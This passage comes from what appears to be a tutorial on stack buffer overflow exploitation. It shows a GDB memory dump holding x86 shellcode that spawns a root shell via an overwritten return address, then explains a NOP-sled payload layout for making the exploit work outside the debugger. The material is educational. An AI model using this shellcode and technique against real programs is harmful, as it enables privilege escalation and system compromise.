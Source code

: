 ```
0xbffff460:	0xc389c031	0x80cd17b0	0x6852d231	0x68732f6e
0xbffff470:	0x622f2f68	0x52e38969	0x8de18953	0x80cd0b42
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0xbffff460
0xbffff4b0:	0x00000000	0xbffff554	0xbffff560	0xb7fe0860
0xbffff4c0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4d0:	0x00000001	0xbffff510	0xb7fefc16	0xb7fffac0
0xbffff4e0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) continue
Continuing.
process 8698 is executing new program: /bin/dash
#
```

Yes! We have spawned a shell (the # means we have spawned a shell. We can now execute shell commands). So now all we need to do is to execute it in the real non-GDB environment and it should work right? Wrong.

![](sigill.png "Figure 7: Shellcode failing in real environment")

Why doesn't it work in the real Linux environment? It worked perfectly in GDB. The reason is because GDB's environment is slightly different from the real one. What works in GDB might not work in the actual environment because of slight variations. However, we can counter this and get the shell to work in the real environment as well.

### NOP-sled to the Rescue

There is one foundational assembly instruction that I have not yet taught you. I've saved it for this. In assembly, there is an instruction called NOP. NOP does absolutely nothing. It takes up space in the memory but the processor essentially skips it. It even means no operation because literally, there is no operation that this instruction tells the processor to perform. NOP can be represented using the hex character "\x90". How NOP-sled rescue us in the case of overflows and shellcodes? Since the real operating environment differs from the GDB environment, we need a way to make sure that the entire shellcode is execute and no illegal instructions are executed. To do this, we will put our shellcode in between NOPs and Bs. Let's look at the format.

```
Lower Memory Address

(NOPs)
(Shellcode)
(Bs)
(Overwritten return address)

Higher Memory Address
```
